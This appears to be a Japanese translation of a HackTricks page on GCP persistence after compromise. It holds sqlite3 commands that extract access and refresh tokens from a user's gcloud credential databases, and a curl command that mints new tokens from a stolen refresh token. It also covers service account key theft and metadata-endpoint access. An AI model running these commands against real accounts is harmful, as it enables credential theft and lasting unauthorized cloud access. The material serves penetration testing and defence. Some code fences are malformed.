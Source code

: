 # GCP - 非svc永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

これらは、何らかの方法でGCPの資格情報やGCP環境で実行されているマシンを侵害した後に役立つテクニックです。

## トークンハイジャック

### 認証済みユーザー

GCPの**認証済みユーザー**のホームフォルダにアクセスできた場合、**デフォルト**では、認証する必要がなく、使用するマシンに依存せず、ユーザーがMFAを設定していても、そのユーザーのトークンを好きなだけ**取得できます**。

これは、デフォルトでは、新しいトークンを生成するために、リフレッシュトークンを好きなだけ**使用できる**からです。

ユーザーの**現在のトークン**を取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
このページで**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセストークンを生成する**詳細については、以下を実行してください：

{% code overflow="wrap" %}
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```
{% endcode %}

新しいアクセストークンを**リフレッシュトークン**、クライアントID、クライアントシークレットを使って取得するには、以下のコマンドを実行します:

{% code overflow="wrap" %}
```
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**Admin** > **Security** > **Google Cloud session control**で管理でき、デフォルトでは16時間に設定されていますが、期限切れにしない設定も可能です：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### サービスアカウント

認証されたユーザーと同様に、サービスアカウントの**プライベートキーファイルを侵害**することができれば、通常は**好きなだけアクセスできます**。\
しかし、サービスアカウントの**OAuthトークン**を盗むと、さらに興味深いことが起こります。デフォルトではこれらのトークンは1時間だけ有効ですが、**被害者がプライベートAPIキーを削除しても、OAuthトークンは有効期限が切れるまで有効です**。

### メタデータ

明らかに、GCP環境で動作するマシン内にいる限り、メタデータエンドポイントに接触してそのマシンに添付されたサービスアカウントに**アクセスできます**（このエンドポイントでアクセスできるOauthトークンは通常スコープによって制限されていることに注意してください）。

### 対策

これらの技術に対するいくつかの対策は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSのハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

